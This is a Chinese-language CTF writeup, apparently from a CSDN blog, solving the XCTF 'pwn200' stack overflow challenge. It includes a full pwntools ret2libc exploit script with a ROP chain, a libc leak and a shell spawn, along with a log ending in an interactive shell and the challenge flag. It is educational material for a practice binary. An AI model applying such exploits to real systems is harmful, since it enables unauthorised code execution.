

<!--yml
category: 未分类
date: 2022-04-26 14:40:23
-->

# pwn200 [XCTF-PWN][高手进阶区]CTF writeup攻防世界题解系列21_3riC5r的博客-CSDN博客

> 来源：[https://blog.csdn.net/fastergohome/article/details/103706462](https://blog.csdn.net/fastergohome/article/details/103706462)

题目地址：[pwn-200](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=1&id=4847&page=1)

不知不觉已经到了高级进阶区的第十题了，攻防世界设计的学习过程，确实降低了学习曲线的陡峭程度。

废话不说，看看题目先

看一下难度星级陡然提升到5颗星，心里是不是有点懵逼！哈哈

先看看保护机制：

```
[*] '/ctf/work/python/pwn200/9c6084f8a3b2473e8a9e9815099bfec5'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

基本没开，只有NX。那就是说可以进行栈溢出。

c语言代码直接贴出来，非常简单

```
int __cdecl main()
{
  int buf; // [esp+2Ch] [ebp-6Ch]
  int v2; // [esp+30h] [ebp-68h]
  int v3; // [esp+34h] [ebp-64h]
  int v4; // [esp+38h] [ebp-60h]
  int v5; // [esp+3Ch] [ebp-5Ch]
  int v6; // [esp+40h] [ebp-58h]
  int v7; // [esp+44h] [ebp-54h]

  buf = 1668048215;
  v2 = 543518063;
  v3 = 1478520692;
  v4 = 1179927364;
  v5 = 892416050;
  v6 = 663934;
  memset(&v7, 0, 0x4Cu);
  setbuf(stdout, (char *)&buf);
  write(1, &buf, strlen((const char *)&buf));
  read_string();
  return 0;
}

ssize_t read_string()
{
  char buf; // [esp+1Ch] [ebp-6Ch]

  setbuf(stdin, &buf);
  return read(0, &buf, 0x100u);
}
```

那一堆v2，v3，看看汇编就知道了，其实就是一个字符串分割成多个变量而已

```
.text:080484CC                 mov     dword ptr [esp+2Ch], 'cleW'
.text:080484D4                 mov     dword ptr [esp+30h], ' emo'
.text:080484DC                 mov     dword ptr [esp+34h], 'X ot'
.text:080484E4                 mov     dword ptr [esp+38h], 'FTCD'
.text:080484EC                 mov     dword ptr [esp+3Ch], '5102'
.text:080484F4                 mov     dword ptr [esp+40h], '\n!~'
```

翻译一下就是

```
char buf[24] = "Welcome to XDCTF2015~!\n";
```

代码变成下面这个样子，一共十几行：

```
int __cdecl main()
{
  char szbuf[24] = "Welcome to XDCTF2015~!\n";

  memset(&v7, 0, 0x4Cu);
  setbuf(stdout, (char *)szbuf);
  write(1, szbuf, strlen((const char *)szbuf));
  read_string();
  return 0;
}

ssize_t read_string()
{
  char buf; // [esp+1Ch] [ebp-6Ch]

  setbuf(stdin, &buf);
  return read(0, &buf, 0x100u);
}
```

所以漏洞位置非常明显，就是在上面read_string函数中的read函数溢出。

检查了一下整个程序，有两个问题：

1.  没有system和/bin/sh
2.  程序没有做循环输入

 根据上面的分析我们制定了破解步骤：

1.  泄露write的got函数
2.  利用LibcSearcher定位system函数地址（这里也可以用pwn模块提供的DynELF来定位system函数）
3.  然后下面有两种方案：
    1.  直接利用LibcSearcher定位/bin/sh地址
    2.  利用bss地址写入/bin/sh
4.  利用system和/bin/sh执行

 具体的python脚本如下，两种方案都写在里面了，大家可以自行多测试一下

```
#coding:utf8
#!python
#!/usr/bin/env python

from pwn import *

context.log_level = 'debug'
process_name = './9c6084f8a3b2473e8a9e9815099bfec5'
# p = process([process_name], env={'LD_LIBRARY_PATH':'./'})
p = remote('111.198.29.45', 47643)
elf = ELF(process_name)

def send_payload(payload):
	payload = 'A'*(0x6C+4) + payload
	p.sendlineafter('Welcome to XDCTF2015~!\n', payload)

main_addr = 0x080483D0
write_plt = elf.plt['write']
write_got = elf.got["write"]

payload = p32(write_plt) + p32(main_addr) + p32(1) + p32(write_got) + p32(4)
send_payload(payload)
write_addr = u32(p.recvn(4))
log.info("write_addr => %#x", write_addr)

from LibcSearcher import *
libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
log.info("system_addr => %#x", system_addr)
log.info("binsh_addr => %#x", binsh_addr)

select = 1
if select == 1:
	#方案1
	payload = p32(system_addr) + p32(main_addr) + p32(binsh_addr)
else:
	#方案2
	read_plt = elf.plt['read']
	pop3_ret = 0x0804856c
	bss_addr = elf.bss()
	payload = p32(read_plt) + p32(pop3_ret) + p32(0) + p32(bss_addr) + p32(8)
	payload += p32(system_addr) + p32(main_addr) + p32(bss_addr)
	payload += '/bin/sh\x00'

send_payload(payload)

p.interactive()
```

执行结果如下：

```
root@mypwn:/ctf/work/python/pwn200# python pwn200.py 
[+] Opening connection to 111.198.29.45 on port 47643: Done
[DEBUG] PLT 0x8048380 setbuf
[DEBUG] PLT 0x8048390 read
[DEBUG] PLT 0x80483a0 __gmon_start__
[DEBUG] PLT 0x80483b0 __libc_start_main
[DEBUG] PLT 0x80483c0 write
[*] '/ctf/work/python/pwn200/9c6084f8a3b2473e8a9e9815099bfec5'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[DEBUG] Received 0x17 bytes:
    'Welcome to XDCTF2015~!\n'
[DEBUG] Sent 0x85 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000070  c0 83 04 08  d0 83 04 08  01 00 00 00  10 a0 04 08  │····│····│····│····│
    00000080  04 00 00 00  0a                                     │····│·│
    00000085
[DEBUG] Received 0x4 bytes:
    00000000  c0 03 6e f7                                         │··n·││
    00000004
[*] write_addr => 0xf76e03c0
[+] ubuntu-xenial-amd64-libc6-i386 (id libc6-i386_2.23-0ubuntu10_amd64) be choosed.
[*] system_addr => 0xf7646940
[*] binsh_addr => 0xf776502b
[DEBUG] Received 0x17 bytes:
    'Welcome to XDCTF2015~!\n'
[DEBUG] Sent 0x99 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000070  90 83 04 08  6c 85 04 08  00 00 00 00  20 a0 04 08  │····│l···│····│ ···│
    00000080  08 00 00 00  40 69 64 f7  d0 83 04 08  20 a0 04 08  │····│@id·│····│ ···│
    00000090  2f 62 69 6e  2f 73 68 00  0a                        │/bin│/sh·│·│
    00000099
[*] Switching to interactive mode
$ cat flag
[DEBUG] Sent 0x9 bytes:
    'cat flag\n'
[DEBUG] Received 0x2d bytes:
    'cyberpeace{c42b3413305b0cae04a8aca4524a68d9}\n'
cyberpeace{c42b3413305b0cae04a8aca4524a68d9}
[DEBUG] Received 0x17 bytes:
    'Welcome to XDCTF2015~!\n'
Welcome to XDCTF2015~!
[*] Got EOF while reading in interactive
$ 
```

执行成功。Nice！

这个题目需要学习的知识点是：

1.  利用LibcSearcher定位system函数地址
2.  用pwn模块提供的DynELF来定位system函数
3.  rop chain的构造
4.  理解3连pop在栈中的执行情况，以及为什么要使用3连pop
5.  理解为什么用bss地址的方案，退出sh后主程序不能保持运行

欢迎各位同学👩‍🎓👨‍🎓一同交流，以上知识点不会的可以与我联系。